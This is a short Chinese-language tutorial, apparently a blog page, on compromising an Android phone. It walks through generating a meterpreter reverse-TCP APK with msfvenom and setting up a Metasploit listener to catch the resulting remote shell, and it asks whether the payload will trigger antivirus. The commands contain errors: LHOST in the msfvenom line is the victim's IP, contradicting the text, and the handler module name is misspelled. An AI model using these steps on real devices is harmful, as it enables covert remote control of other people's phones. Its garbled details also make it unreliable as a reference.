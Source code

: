 ##如何渗透攻击Android

原理和渗透攻击Windows PC很相似，就是我们在设置Payload是需要注意类型和输出的值
##测试环境
攻击者：Kali           IP地址:192.168.43.126

victim：Android       IP地址:192.168.43.188
##使用msfvenom生成Payload
我们可以使用msfvenom来生成Payload，这个工具可以很方便的生成我们需要的Payload文件，加上命令不难理解就成了初学者比较好的选择

那我们使用什么命令生成Payload呢？


```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.43.188 LPORT=4444 R > android.apk
```
###参数讲解

-p 参数指的是Payload的类型

-LHOST 参数指定的是本地Kali主机的IP地址，就是将TCP会话返回给谁

-LPORT 参数指定的是返回TCP会话使用的本地端口

-f 参数指定的是生成的文件类型

**现在我们需要思考一个问题，生成的Payload文件会不会报毒呢？**

##设置监听器
我们使用msfconsole来设置监听器，需要注意的是设置监听器参数的时候需要和生成Payload文件的参数一样，不然不能返回TCP会话
```
use exploit/multi/handle
set payload android/meterpreter/reverse_tcp
set LHOST 192.168.43.126
set LPORT 4444
```


设置完监听器的参数之后，我们使用命令来查看一下监听器的信息
```
show options
```

一样查看设置，都设置正确的话，就可以使用命令开启监听器，如果发现那一句没有设置正确就重新设置那个参数
```
exploit
```

如果帮助到你了，希望可以得到你的打赏，谢谢[B站频道传送门](https://space.bilibili.com/184594996/ "Bilibili")